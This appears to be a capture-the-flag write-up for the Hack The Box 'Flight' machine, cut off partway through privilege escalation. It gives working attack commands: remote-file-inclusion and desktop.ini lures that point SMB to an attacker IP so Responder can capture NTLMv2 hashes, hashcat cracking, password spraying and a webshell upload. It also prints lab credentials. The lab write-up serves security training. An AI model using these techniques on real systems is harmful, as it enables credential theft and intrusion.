

# Flight (Hard)

<figure><figcaption></figcaption></figure>

## Information Gathering

Scanned all TCP ports:

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-title: g0 Aviation
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-02 13:18:53Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: G0; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-05-02T13:19:45
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
|_clock-skew: -58m09s
```

Enumerated UDP ports:

```
```

Notes:

* 53/DNS and 398/LDAP is open, adding <mark style="color:yellow;">flight.htb</mark> domain to /etc/hosts file
* 80/HTTP is open -- need to analyze website
  * Cleartext credentials?
  * Vulnerable webapp?
* 88/Kerberos is open -- This is a Domain Controller
  * Test for AS-REP Roasting if we get a valid username
  * Test Kerberoasting if we get valid credentials (username + password)
* 5985/WinRM is open, we can use this to authenticate with Evil-WinRM if we get creds

## Enumeration

### Port 80 - HTTP (Apache 2.4.52)

#### Subdomain Enumeration

```
ffuf -u http://flight.htb -H "Host: FUZZ.flight.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fs 7069
* FUZZ: school
```

#### Directory Bruteforce

flight.htb:

```
dirsearch -u http://flight.htb

Target: http://flight.htb/

[10:59:24] Starting: 
[10:59:25] 403 -  299B  - /%C0%AE%C0%AE%C0%AF
[10:59:25] 301 -  329B  - /js  ->  http://flight.htb/js/
[10:59:25] 403 -  299B  - /%3f/
[10:59:25] 403 -  299B  - /%ff
[10:59:26] 403 -  299B  - /.ht_wsr.txt
[10:59:26] 403 -  299B  - /.htaccess.bak1
[10:59:26] 403 -  299B  - /.htaccess.orig
[10:59:26] 403 -  299B  - /.htaccess.sample
[10:59:26] 403 -  299B  - /.htaccess.save
[10:59:26] 403 -  299B  - /.htaccess_orig
[10:59:26] 403 -  299B  - /.htaccess_extra
[10:59:26] 403 -  299B  - /.htaccess_sc
[10:59:26] 403 -  299B  - /.htaccessBAK
[10:59:26] 403 -  299B  - /.htaccessOLD
[10:59:26] 403 -  299B  - /.htaccessOLD2
[10:59:26] 403 -  299B  - /.htm
[10:59:26] 403 -  299B  - /.html
[10:59:26] 403 -  299B  - /.htpasswd_test
[10:59:26] 403 -  299B  - /.httr-oauth
[10:59:26] 403 -  299B  - /.htpasswds
[10:59:30] 403 -  299B  - /Trace.axd::$DATA
[10:59:38] 403 -  299B  - /cgi-bin/
[10:59:38] 200 -    1KB - /cgi-bin/printenv.pl
[10:59:39] 301 -  330B  - /css  ->  http://flight.htb/css/
[10:59:42] 503 -  399B  - /examples/servlets/servlet/CookieExample
[10:59:42] 503 -  399B  - /examples/servlets/index.html
[10:59:42] 503 -  399B  - /examples
[10:59:42] 503 -  399B  - /examples/servlet/SnoopServlet
[10:59:42] 503 -  399B  - /examples/
[10:59:42] 503 -  399B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/
[10:59:42] 503 -  399B  - /examples/jsp/snp/snoop.jsp
[10:59:42] 503 -  399B  - /examples/servlets/servlet/RequestHeaderExample
[10:59:43] 301 -  333B  - /images  ->  http://flight.htb/images/
[10:59:43] 200 -    5KB - /images/
[10:59:43] 200 -    7KB - /index.html
[10:59:43] 403 -  299B  - /index.php::$DATA
[10:59:44] 200 -    3KB - /js/
[10:59:48] 403 -  418B  - /phpmyadmin/README
[10:59:48] 403 -  418B  - /phpmyadmin/ChangeLog
[10:59:48] 403 -  418B  - /phpmyadmin/docs/html/index.html
[10:59:48] 403 -  418B  - /phpmyadmin/doc/html/index.html
[10:59:48] 403 -  418B  - /phpmyadmin
[10:59:49] 403 -  418B  - /phpmyadmin/
[10:59:49] 403 -  418B  - /phpmyadmin/phpmyadmin/index.php
[10:59:49] 403 -  418B  - /phpmyadmin/index.php
[10:59:49] 403 -  418B  - /phpmyadmin/scripts/setup.php
[10:59:51] 403 -  418B  - /server-status/
[10:59:51] 403 -  418B  - /server-info
[10:59:51] 403 -  418B  - /server-status
[10:59:56] 403 -  299B  - /web.config::$DATA
[10:59:56] 403 -  418B  - /webalizer
```

school.flight.htb:

```
dirsearch -u http://school.flight.htb

[11:01:10] Starting: 
[11:01:10] 403 -  306B  - /%3f/
[11:01:10] 403 -  306B  - /%C0%AE%C0%AE%C0%AF
[11:01:10] 403 -  306B  - /%ff
[11:01:12] 403 -  306B  - /.ht_wsr.txt
[11:01:12] 403 -  306B  - /.htaccess.bak1
[11:01:12] 403 -  306B  - /.htaccess.sample
[11:01:12] 403 -  306B  - /.htaccess.orig
[11:01:12] 403 -  306B  - /.htaccess.save
[11:01:12] 403 -  306B  - /.htaccess_sc
[11:01:12] 403 -  306B  - /.htaccessBAK
[11:01:12] 403 -  306B  - /.htaccess_orig
[11:01:12] 403 -  306B  - /.htaccessOLD
[11:01:12] 403 -  306B  - /.htaccessOLD2
[11:01:12] 403 -  306B  - /.html
[11:01:12] 403 -  306B  - /.htm
[11:01:12] 403 -  306B  - /.htpasswds
[11:01:12] 403 -  306B  - /.htpasswd_test
[11:01:12] 403 -  306B  - /.htaccess_extra
[11:01:12] 403 -  306B  - /.httr-oauth
[11:01:16] 403 -  306B  - /Trace.axd::$DATA
[11:01:17] 200 -    2KB - /about.html
[11:01:24] 403 -  306B  - /cgi-bin/
[11:01:24] 200 -    1KB - /cgi-bin/printenv.pl
[11:01:28] 503 -  406B  - /examples/
[11:01:28] 503 -  406B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/
[11:01:28] 503 -  406B  - /examples
[11:01:28] 503 -  406B  - /examples/jsp/snp/snoop.jsp
[11:01:28] 503 -  406B  - /examples/servlet/SnoopServlet
[11:01:28] 503 -  406B  - /examples/servlets/index.html
[11:01:28] 503 -  406B  - /examples/servlets/servlet/CookieExample
[11:01:28] 503 -  406B  - /examples/servlets/servlet/RequestHeaderExample
[11:01:28] 200 -    3KB - /home.html
[11:01:29] 301 -  347B  - /images  ->  http://school.flight.htb/images/
[11:01:29] 200 -    4KB - /images/
[11:01:29] 200 -    4KB - /index.php
[11:01:29] 403 -  306B  - /index.php::$DATA
[11:01:29] 200 -    4KB - /index.pHp
[11:01:29] 200 -    4KB - /index.php.
[11:01:29] 200 -    4KB - /index.php/login/
[11:01:35] 403 -  425B  - /phpmyadmin/ChangeLog
[11:01:35] 403 -  425B  - /phpmyadmin/doc/html/index.html
[11:01:35] 403 -  425B  - /phpmyadmin/docs/html/index.html
[11:01:35] 403 -  425B  - /phpmyadmin/README
[11:01:35] 403 -  425B  - /phpmyadmin
[11:01:36] 403 -  425B  - /phpmyadmin/phpmyadmin/index.php
[11:01:36] 403 -  425B  - /phpmyadmin/index.php
[11:01:36] 403 -  425B  - /phpmyadmin/
[11:01:36] 403 -  425B  - /phpmyadmin/scripts/setup.php
[11:01:38] 403 -  425B  - /server-status/
[11:01:38] 403 -  425B  - /server-info
[11:01:38] 403 -  425B  - /server-status
[11:01:40] 301 -  347B  - /styles  ->  http://school.flight.htb/styles/
[11:01:43] 403 -  306B  - /web.config::$DATA
[11:01:43] 403 -  425B  - /webalize
```

We locate an extra subdomain!&#x20;

* Add to /etc/hosts
* school.flight.htb

<figure><figcaption></figcaption></figure>

* svc\_apache user
* postmaster@localhost

#### Page Source

flight.htb:

* Unable to find anything of importance in here

school.flight.htb:

* Unable to find anything of importance in here either

Fingerprinting:

Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1

#### Visual Inspection

flight.htb:


school.flight.htb:

<figure><figcaption></figcaption></figure>

I see a PHP page that calls a script. Let's test if this is injectable by simply attempting an LFI attack.

<figure><figcaption></figcaption></figure>

We see that we trigger a warning as soon as we try this! This is good! Let's see if we can bypass this now.

After testing a variety of LFI bypasses with no luck, I decided to go a different route.&#x20;

Why not try RFI?

#### Start Local HTTP Server

```
python3 -m http.server
```

#### Trigger RFI Attempt

```
http://10.10.14.38:8000
```

BOOM! We get my Nmap scans that are in my /HTB/Escape directory for this challenge!

<figure><figcaption></figcaption></figure>

This means that we can exploit this!

Unfortunately, it was not that simple. There was still some sort of sanitization going on in the background and I could not get the server to execute malicious code included on my server.

### Port 445 - SMB

#### Enum4Linux

* Server allows '''' sessions but when I enumerate for null sessions, it does not work

#### smbclient

```
smbclient -L \\flight.htb -I 10.129.95.32 -N
```

<figure><figcaption></figcaption></figure>

#### Null Sessions with CrackMapExec

```
crackmapexec smb 10.129.95.32 -u '' -p ''
```

#### Pre-credentials Enumeration

* I was unable to find anything without credentials
* This tells me that I need to perform additional web recon in hopes of finding something

## Exploitation

### Capturing NTLMv2 Hash via SMB -> RFI

The sanitization was blocking backslashes, but forward slashes were still working properly!

Let's see if we can grab a hash with `Responder`!

Start Responder:

```
sudo responder -I tun0 -wPv
```

Capture NTLMv2 Hash:

```
php?view=//10.10.14.38/gethackedlol
```

<figure><figcaption></figcaption></figure>

<mark style="color:yellow;">We captured the NTLMv2 hash of svc\_apache!</mark>

hash.txt:

```
svc_apache::flight:77d44c984d50933f:38B9B97BAA56344A27BD56E7F6A6CBD8:010100000000000080CE1EE4FB7CD9019DD59F308E7C51610000000002000800360047005700510001001E00570049004E002D0058004B004E005900370047003800510056004200350004003400570049004E002D0058004B004E00590037004700380051005600420035002E0036004700570051002E004C004F00430041004C000300140036004700570051002E004C004F00430041004C000500140036004700570051002E004C004F00430041004C000700080080CE1EE4FB7CD90106000400020000000800300030000000000000000000000000300000B3634D5BADB59F9A713D6D04000C215340F2E8849E20E1F44BD57D24C7420FDB0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00330038000000000000000000
```

Time to crack this hash!

```
hashcat -a 0 -m 5600 hash.txt /usr/share/wordlists/rockyou.txt -o cracked.txt -O
```

Creds:

```
svc_apache:S@Ss!K@*t13
```

* Now that we have valid credentials, I attempted Kerberoasting, but it did not work

#### CrackMapExec

Let's pass these new creds around the machine:

#### SMB

```
crackmapexec smb 10.129.95.32 -u 'svc_apache' -p 'S@Ss!K@*t13' --shares
SMB         10.129.95.32    445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.129.95.32    445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
SMB         10.129.95.32    445    G0               [+] Enumerated shares
SMB         10.129.95.32    445    G0               Share           Permissions     Remark
SMB         10.129.95.32    445    G0               -----           -----------     ------
SMB         10.129.95.32    445    G0               ADMIN$                          Remote Admin
SMB         10.129.95.32    445    G0               C$                              Default share
SMB         10.129.95.32    445    G0               IPC$            READ            Remote IPC
SMB         10.129.95.32    445    G0               NETLOGON        READ            Logon server share 
SMB         10.129.95.32    445    G0               Shared          READ            
SMB         10.129.95.32    445    G0               SYSVOL          READ            Logon server share 
SMB         10.129.95.32    445    G0               Users           READ            
SMB         10.129.95.32    445    G0               Web             READ 
```

#### Grabbing Users

```
crackmapexec smb 10.129.95.32 -u 'svc_apache' -p 'S@Ss!K@*t13' --users
SMB         10.129.95.32    445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.129.95.32    445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
SMB         10.129.95.32    445    G0               [+] Enumerated domain user(s)
SMB         10.129.95.32    445    G0               flight.htb\O.Possum                       badpwdcount: 0 desc: Helpdesk
SMB         10.129.95.32    445    G0               flight.htb\svc_apache                     badpwdcount: 0 desc: Service Apache web
SMB         10.129.95.32    445    G0               flight.htb\V.Stevens                      badpwdcount: 0 desc: Secretary
SMB         10.129.95.32    445    G0               flight.htb\D.Truff                        badpwdcount: 0 desc: Project Manager
SMB         10.129.95.32    445    G0               flight.htb\I.Francis                      badpwdcount: 0 desc: Nobody knows why he's here
SMB         10.129.95.32    445    G0               flight.htb\W.Walker                       badpwdcount: 0 desc: Payroll officer
SMB         10.129.95.32    445    G0               flight.htb\C.Bum                          badpwdcount: 0 desc: Senior Web Developer
SMB         10.129.95.32    445    G0               flight.htb\M.Gold                         badpwdcount: 0 desc: Sysadmin
SMB         10.129.95.32    445    G0               flight.htb\L.Kein                         badpwdcount: 0 desc: Penetration tester
SMB         10.129.95.32    445    G0               flight.htb\G.Lors                         badpwdcount: 0 desc: Sales manager
SMB         10.129.95.32    445    G0               flight.htb\R.Cold                         badpwdcount: 0 desc: HR Assistant
SMB         10.129.95.32    445    G0               flight.htb\S.Moon                         badpwdcount: 0 desc: Junion Web Developer
SMB         10.129.95.32    445    G0               flight.htb\krbtgt                         badpwdcount: 0 desc: Key Distribution Center Service Account
SMB         10.129.95.32    445    G0               flight.htb\Guest                          badpwdcount: 0 desc: Built-in account for guest access to the computer/domain
SMB         10.129.95.32    445    G0               flight.htb\Administrator                  badpwdcount: 0 desc: Built-in account for administering the computer/domain
```

Users List:

```
O.Possum
svc_apache
V.Stevens
D.Truff
I.Francis
W.Walker
C.Bum
M.Gold
L.Kein
G.Lors
R.Cold
S.Moon
krbtgt
Guest
Administrator
```

#### AS-REPRoasting Attempt

```
impacket-GetNPUsers flight.htb/ -dc-ip 10.129.95.32 -no-pass -usersfile users.txt 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User O.Possum doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc_apache doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User V.Stevens doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User D.Truff doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User I.Francis doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User W.Walker doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Bum doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User M.Gold doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Kein doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User G.Lors doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User R.Cold doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User S.Moon doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```

#### Bruteforce

```
crackmapexec smb 10.129.95.32 -u users.txt -p 'S@Ss!K@*t13'  --continue-on-success
SMB         10.129.95.32    445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.129.95.32    445    G0               [-] flight.htb\O.Possum:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.95.32    445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
SMB         10.129.95.32    445    G0               [-] flight.htb\V.Stevens:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.95.32    445    G0               [-] flight.htb\D.Truff:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.95.32    445    G0               [-] flight.htb\I.Francis:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.95.32    445    G0               [-] flight.htb\W.Walker:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.95.32    445    G0               [-] flight.htb\C.Bum:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.95.32    445    G0               [-] flight.htb\M.Gold:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.95.32    445    G0               [-] flight.htb\L.Kein:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.95.32    445    G0               [-] flight.htb\G.Lors:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.95.32    445    G0               [-] flight.htb\R.Cold:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.95.32    445    G0               [+] flight.htb\S.Moon:S@Ss!K@*t13 
SMB         10.129.95.32    445    G0               [-] flight.htb\krbtgt:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.95.32    445    G0               [-] flight.htb\Guest:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.95.32    445    G0               [-] flight.htb\Administrator:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
```

We can now see what we have access to with <mark style="color:yellow;">S.Moon</mark>!

```
crackmapexec smb 10.129.95.32 -u S.Moon -p 'S@Ss!K@*t13' --shares
SMB         10.129.95.32    445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.129.95.32    445    G0               [+] flight.htb\S.Moon:S@Ss!K@*t13 
SMB         10.129.95.32    445    G0               [+] Enumerated shares
SMB         10.129.95.32    445    G0               Share           Permissions     Remark
SMB         10.129.95.32    445    G0               -----           -----------     ------
SMB         10.129.95.32    445    G0               ADMIN$                          Remote Admin
SMB         10.129.95.32    445    G0               C$                              Default share
SMB         10.129.95.32    445    G0               IPC$            READ            Remote IPC
SMB         10.129.95.32    445    G0               NETLOGON        READ            Logon server share 
SMB         10.129.95.32    445    G0               Shared          READ,WRITE      
SMB         10.129.95.32    445    G0               SYSVOL          READ            Logon server share 
SMB         10.129.95.32    445    G0               Users           READ            
SMB         10.129.95.32    445    G0               Web             READ
```

* We now have <mark style="color:yellow;">Read/Write on Shared</mark>
* We can write a desktop.ini file to the writeable share in hopes of capturing an NTLM hash
  * This method can be found on hacktricks

desktop.ini:

```
cat "[.ShellClassInfo]
IconResource=\\10.10.14.38\test" >> desktop.ini
```

cat desktop.ini:

```
[.ShellClassInfo]
IconResource=\\10.10.14.38\test
```

Authenticate to Shared SMB share via `smbclient`:

```
smbclient '\\\\flight.htb\\Shared' -I flight.htb -U S.Moon 'S@Ss!K@*t13'
Password: S@Ss!K@*t13

smb: \> put desktop.ini
```

Start responder if you do not have it running still (you should always keep this running during a Windows/AD engagement!):

```
sudo responder -I tun0 -wPv
```

Wait a little bit and you will see the NTLMv2 hash for C.Bum come across the network:

<figure><figcaption></figcaption></figure>

Time to crack this hash:

```
hashcat -a 0 -m 5600 hash.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
```

Creds:

```
C.Bum:Tikkycoll_431012284
```

#### Crackmapexec

```
crackmapexec smb 10.129.95.32 -u C.Bum -p 'Tikkycoll_431012284' --shares
SMB         10.129.95.32    445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.129.95.32    445    G0               [+] flight.htb\C.Bum:Tikkycoll_431012284 
SMB         10.129.95.32    445    G0               [+] Enumerated shares
SMB         10.129.95.32    445    G0               Share           Permissions     Remark
SMB         10.129.95.32    445    G0               -----           -----------     ------
SMB         10.129.95.32    445    G0               ADMIN$                          Remote Admin
SMB         10.129.95.32    445    G0               C$                              Default share
SMB         10.129.95.32    445    G0               IPC$            READ            Remote IPC
SMB         10.129.95.32    445    G0               NETLOGON        READ            Logon server share 
SMB         10.129.95.32    445    G0               Shared          READ,WRITE      
SMB         10.129.95.32    445    G0               SYSVOL          READ            Logon server share 
SMB         10.129.95.32    445    G0               Users           READ            
SMB         10.129.95.32    445    G0               Web             READ,WRITE
```

* We see that we can now write to the Web share
* Let's place a webshell in here



```
smbclient '\\\\flight.htb\\Web' -I flight.htb -U C.Bum 'Tikkycoll_431012284'
password: Tikkycoll_431012284

smb: \> cd flight.htb\
smb: \flight.htb\> put webshell.php 
putting file webshell.php as \flight.htb\webshell.php (62.9 kb/s) (average 62.9 kb/s)
```

* By navigating to /flight.htb/webshell.php, we can get to the webshell!

<figure><figcaption></figcaption></figure>

## Privilege Escalation

### Local enumeration

This took me quite some time. I was able to find some passwords and attempted to pass them around the network, but none of them worked.

```
Tikkycoll_431012284
S@Ss!K@*t13
ppmax2011
```

When I took a look at internally running processes, I was able to see something running on port 8000.

Armed with that knowledge, we might want to forward this port to our attack machine so we can get a better look at it.

We can use [chisel](https://github.com/jpillora/chisel/releases/tag/v1.8.1) for this!

Be sure to copy chisel over for&#x20;

### PrivEsc vector

